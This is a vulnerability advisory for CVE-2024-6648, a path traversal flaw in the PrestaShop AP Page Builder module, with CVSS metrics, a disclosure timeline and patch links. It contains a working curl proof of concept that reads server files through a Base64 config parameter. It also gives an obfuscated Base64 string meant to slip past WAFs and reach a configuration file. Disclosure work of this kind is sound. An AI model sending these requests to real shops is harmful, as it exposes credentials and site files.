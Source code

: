 ```yaml
---
layout: post
title: "[CVE-2024-6648] Absolute Path Traversal vulnerability in AP Page Builder versions prior to 4.0.0"
categories: core
author:
- n0d0n
- incibe.es
meta: "CVE,PrestaShop,Addon,Theme,appagebuilder"
severity: "high (8.7)"
---
```


Ap Page Builder is vulnerable to an absolute path traversal that allows the attacker to include system files by modifying the base64 config param submitted to apajax.php

## Summary

* **CVE ID**: [CVE-2024-6648](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-6648)
* **Published at**: 2025-05-08
* **Advisory source**: Incibe cert
* **Platform**: PrestaShop
* **Product**: Ap Page Builder
* **Impacted release**: < 4.0.0
* **Product author**: Apollo Theme
* **Weakness**: [CWE-36](https://cwe.mitre.org/data/definitions/36.html)
* **Severity**: high (8.7)

## Description

Absolute Path Traversal vulnerability in AP Page Builder versions prior to 4.0.0 could allow an unauthenticated remote user to modify the 'product_item_path' within the 'config' JSON file, allowing them to read any file on the system.

**WARNING** : This exploit uses a Base64 payload, which may bypass most WAFs.

Be aware that it's possible to obfuscate a Base64 string using special characters to evade detection - the base64_decode() function in PHP will silently strip them out.

For example, the following is a perfectly valid Base64 input for base64_decode:
Li4$vLi4-vY#XBwL--2NvbmZpZy9wYXJhb-WV0Z$XJzLnB$ocA==

If you're using ModSecurity 2, prefer base64DecodeExt over base64Decode to mitigate this technique.

## CVSS base metrics

* **Attack Vector (AV)**: Network
* **Attack Complexity (AC)**: Low
* **Attack Requirements (AT)**: None
* **Privileges Required (PR)**: None
* **User Interaction (UI)**: None
* **Confidentiality (VC)**: High
* **Integrity (VI)**: None
* **Availability (VA)**: None

**Vector string**: [CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N](https://nvd.nist.gov/vuln-metrics/cvss/v4-calculator?vector=AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N)

## Proof of concept

POC has been published by n0d0n : https://github.com/n0d0n/CVE-2024-6648/blob/main/CVE-2024-6648.yaml

```bash
curl -v "https://preprod.X/modules/appagebuilder/apajax.php?config=eyJvcmRlcl9ieSI6ImlkX3Byb2R1Y3QiLCJuYl9wcm9kdWN0cyI6IjIiLCJ0b3RhbF9wYWdlIjoxLCAicHJvZHVjdF9pdGVtX3BhdGgiOiAiY29uZmlnLnhtbCIsICJjb2x1bW5zIjogMX0%3d&p=1"
```

## Patch

See this : https://help-center.prestashop.com/hc/fr/articles/25492821315346-Mise-en-conformit%C3%A9-du-module-Ap-Page-Builder

## Timeline

| Date | Action |
| -- | -- |
| 2024-07-15 | Incibe report the vulnerability |
| 2024-08-16 | Due to the severity of the vulnerability, the large number of affected themes (over 2,000) across multiple marketplaces, and the time required for the module author to patch all of them, TouchWeb requests a one-year delay before public disclosure. |
| 2024-10-16 | Incibe accept a 9 months delay |
| 2025-05-08 | Incibe publish the vulnerability |
| 2025-05-08 | n0d0n publish the POC |



## Links

* [Incibe cert advisory](https://www.incibe.es/incibe-cert/alerta-temprana/avisos/path-traversal-en-ap-page-builder)
* [Prestashop advisory](https://help-center.prestashop.com/hc/fr/articles/25492821315346-Mise-en-conformit%C3%A9-du-module-Ap-Page-Builder)
* [Theme page](https://apollotheme.com/products/ap-pagebuilder-prestashop-module)
* [Public POC](https://github.com/n0d0n/CVE-2024-6648/blob/main/CVE-2024-6648.yaml)

